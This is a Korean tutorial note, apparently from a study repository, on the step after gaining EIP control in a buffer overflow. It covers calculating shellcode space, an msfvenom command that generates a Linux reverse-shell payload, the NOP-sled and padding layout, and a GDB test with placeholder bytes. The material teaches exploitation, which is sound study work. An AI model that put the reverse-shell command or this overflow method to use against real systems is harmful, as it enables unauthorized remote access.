


# 셸코드 길이 결정: EIP 제어 이후의 단계

BOF(버퍼 오버플로우)에서 EIP를 제어한 이후, 실제 악성 코드를 삽입하려면 \*\*쉘코드(Shellcode)\*\*를 어디에 넣고, 얼마나 넣을 수 있는지 공간 계산이 필요하다. 이 과정을 시각적 흐름과 함께 정리한다.

---

## 쉘코드 삽입을 위한 공간 계산

- 목표: 리버스 쉘 등의 동작을 담은 **쉘코드**를 삽입하고 실행시키는 것
- 우선 `msfvenom`을 사용하여 payload 크기를 확인한다.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=31337 \
  --platform linux --arch x86 --format c
```

- 출력 예:

```
Payload size: 68 bytes
```

- 여유 있게 넉넉히 공간을 확보하는 게 좋음 (예: 150바이트)

---

## NOP Sled와 전체 구조 만들기

- 보통 shellcode 앞에 \*\*NOP sled (`\x90`)\*\*를 삽입하면 안정적으로 실행됨
- 전체 구조:

  - 전체 오버플로우 크기: **1040 바이트**
  - NOP 공간: **100 바이트**
  - Shellcode 공간: **150 바이트**
  - EIP 덮기: **4 바이트**
  - 따라서 패딩(Buffer)은: `1040 - 100 - 150 - 4 = 786` 바이트
  
> 패딩(Buffer)이란?: **"공간을 채우기 위한 임시 데이터"**(버퍼 오버플로우)



---

## GDB 실험으로 확인하기

- 아래와 같이 페이로드를 구성하고 GDB에서 실행해보자.

```bash
(gdb) run $(python -c 'print "\x55" * 786 + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

- `\x55` - padding (EIP 전까지 채움)

- `\x90` - NOP sled

- `\x44` - 쉘코드 자리 (임시 바이트로 테스트)

- `\x66` - EIP에 덮을 값 (예: `0x66666666`)

- 결과:

```
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```



---

## 요약

| 구성 요소     | 크기 (bytes) | 설명                |
| --------- | ---------- | ----------------- |
| Padding   | 786        | EIP 전까지 채움        |
| NOP sled  | 100        | 안정적 실행 보장용 NOP    |
| Shellcode | 150        | 실제 공격 payload     |
| EIP       | 4          | 덮어서 shellcode로 점프 |

- 쉘코드 길이 계산은 단순히 shellcode 크기만 보는 것이 아니라, 전체 페이로드 구조를 정확히 조합하고 시뮬레이션하는 것이 핵심이다.
